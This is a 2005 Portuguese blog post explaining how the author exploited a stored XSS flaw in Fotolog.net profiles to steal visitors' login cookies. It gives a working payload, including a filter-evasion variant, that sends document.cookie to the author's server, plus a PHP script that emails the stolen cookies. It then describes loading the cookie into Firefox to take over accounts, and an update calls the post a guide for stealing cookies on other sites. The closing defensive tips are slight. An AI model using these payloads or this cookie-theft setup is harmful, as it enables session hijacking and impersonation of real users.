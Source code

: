 ```yaml
---
title: Falha no Fotolog.net
date: 2005-02-17T16:22:47+00:00
excerpt: A descrição de como descobri que consegui pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile num Fotolog.net
url: /2005/02/falha-no-fotolognet/
tags:
  - cookies
  - dica
  - falha
  - fotolog
  - hacker
  - javascript
  - web
  - xss
---
```


Segue a descrição de como descobri que consigo pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile, e com isso, poder:

- Adicionar comentários em qualquer fotolog como a pessoa
- Remover comentários do fotolog da pessoa
- Adicionar/remover FF list
- Ver e-mail de cadastro da pessoa

**[update]** Parece que isso não funciona mais hoje. De qualquer maneira, é um bom guia (acho que tá bem detalhado) para _roubar cookies_ de vários outros sitemas que tenham falhas como esta (e não são poucos). **[/update]**

Nos últimos dias, alguém pegou a senha do Fotolog.net de um amigo meu e ele me pediu para que eu tentasse recuperar. Não consegui descobrir senha. Porém, usando furos do Fotolog.net e do Internet Explorer, descobri que consigo estar loggado com qualquer usuário que entre no meu perfil! Já que é preciso escrever a senha em cada página do Fotolog.net (upload, mudar profile, etc.) a única coisa que posso fazer loggado como a pessoa é escrever comentários, mas mesmo assim já é uma coisa estranha que merece a atenção do administrador do Fotolog.net (para o qual irei enviar um e-mail). Irei postar um “passo-a-passo” de como pegar o cookie de login do Fotolog.net e com isto, loggar como a pessoa que perdeu esse cookie.

O cookie do Fotolog.net dura mais de um ano… Isso é um problema grave de segurança, mas não é utilizando esta falha que faço tudo. O que eu fiz foi um JavaScript dentro de um CSS redirecionar para uma página PHP com função mail que me envia a função document.cookie do JavaScript que roda no cliente na página do Fotolog.net! É um pouco difícil de explicar, mas não tão complicado. Meu objetivo postando aqui não é incentivar que as pessoas façam isso (eu só fiz comigo mesmo testando), mas incentivar os que possuem conta no Fotolog.net usarem browsers decentes (como Firefox ou Opera) ou não clicar em profiles de estranhos. Tenho certeza de que hackers de verdade não usarão isto para o mal, mas sim para fins de aprendizagem, como eu fiz; mas parece que vários newbies por aí se acham e se acharão o máximo postando comentários como outras pessoas com a minha “receita de bolo”! Por esses, preciso lamentar e mandar ler a definição de hacker no Jargon File.

A primeira barreira que tive que ultrapassar foi que só 500 brasileiros por dia podem se registrar no Fotolog.net! Bom… Eu tava ansioso pra tentar fazer isso e já que eu não tinha tempo a perder, entrei no site [Public Proxy Servers][1] e usando um proxy high-anonimity do Vietnã me registrei no Fotolog.net… Perfeito! Apareceu que nenhum visitante do Vietnã tinha se cadastrado no dia.

Então, fui até o meu profile e no endereço do meu site eu tentei colocar aspas. Percebi que funcionou, então testei um código de bastante fácil entendimento:

```
#" style="background:url(javascript:location.href='http://tableless.tiagomadeira.net/foo.php'+escape(document.cookie))
```

Mas não funcionou porque o Fotolog.net não permite “javascript” na frase. Então após alguns testes cheguei ao:

```
#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))
```

_OBS.: Tenho recebido e-mail de pessoas dizendo que o não cabe… O meu também não cabia, mas é só questão de diminuir o endereço._

Este código só funciona porque o _Internet Explorer_ é problemático! Não tem nada a ver um _JavaScript_ dentro de uma url de fundo e ainda ir para este endereço! E o [Fotolog.net][2] também tem um bug seríssimo porque não deveria poder se usar aspas no endereço de um site! Daí no meu profile aparece no lugar do endereço da minha página:

```html
<a
  href="#"
  style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))"
  >#" style="background:url(ja vas cript:location.href=%27
  http://www.tiagomadeira.net/r.php?c=%27 +escape(document.cookie))</a
>
```

Bom, depois disso basta fazer uma página PHP que passe este valor do c para um banco de dados ou e-mail (no meu caso, preferi por e-mail mesmo). Criei uma página no meu /r.php com:

```php
<?php
$cookie=$_GET["c"];
mail("meu@email", "Presente pra você!", "$cookie");
Header("Location: http://tableless.tiagomadeira.net");
?>
```

E o último problema que enfrentei então foi colocar este cookie no meu Firefox. Depois de vários testes, descobri que eu podia editar os cookies do meu Firefox. Para isto abri meu _>~/.mozilla/firefox/profiles/??????.default/cookies.txt_ e modifiquei o cookie para o que eu recebi no e-mail. E finalmente loggado!

#### Vou tentar simplificar o “algoritmo”:

- A pessoa está loggada (sempre, pois o cookie do fotolog.net é gigantesco) e entra no meu perfil.
- Meu perfil pega o cookie do Fotolog.net deste computador (que precisa estar usando Internet Explorer) e me envia via a função mail do PHP.
- Eu troco o cookie do meu Firefox pelo que eu recebi no e-mail e com isto fico loggado como a pessoa!

Interessante, né?

Bom, como já havia dito, isto foi apenas para fins de aprendizagem e descobri tudo isto justamente porque algum lammer pegou a senha de um amigo meu, mas espero que as pessoas aprendam a lição para não se tornarem as vítimas deste _“golpe”_.

**Eu conheço três formas para se tornar resistente a esse golpe:**

- Não utilizar Internet Explorer. Sugiro [Firefox][3] (o que eu uso), [Opera][4], [Konqueror][5], entre outros…
- Não utilizar [Fotolog.net][2]. Sugiro [Flickr][6].
- Não clicar em profiles de estranhos.

Bom… É isso aí.

Aprendi muito com isto e por isso compartilho este conhecimento neste post para que outros também possam aprender. Quem puder, divulgue para seus amigos para que eles não sejam vítimas desse tipo de coisa.

[1]: http://www.publicproxyservers.com
[2]: http://www.fotolog.net
[3]: http://www.getfirefox.com
[4]: http://www.opera.com
[5]: http://konqueror.kde.org
[6]: http://www.flickr.com
